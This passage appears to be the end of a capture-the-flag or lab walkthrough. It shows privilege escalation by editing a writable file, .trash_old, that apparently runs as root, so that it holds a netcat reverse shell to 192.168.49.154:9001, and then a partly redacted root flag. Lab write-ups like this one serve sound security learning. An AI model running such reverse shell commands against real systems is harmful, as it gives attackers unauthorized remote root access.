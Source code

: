 ![](Screenshots/2022-10-12-09-06-22.png)

## rev shell to root:

* so now We can go and edit .trash_old to what ever we want.

        nc -e /bin/bash 192.168.49.154 9001

![](Screenshots/2022-10-12-09-10-02.png)

* Set up a listener once again and we have root.

![](Screenshots/2022-10-12-09-10-13.png)

* There's several ways this could of been used to gain root.

## root flag

    b0d011[..REDACTED..]9e1895
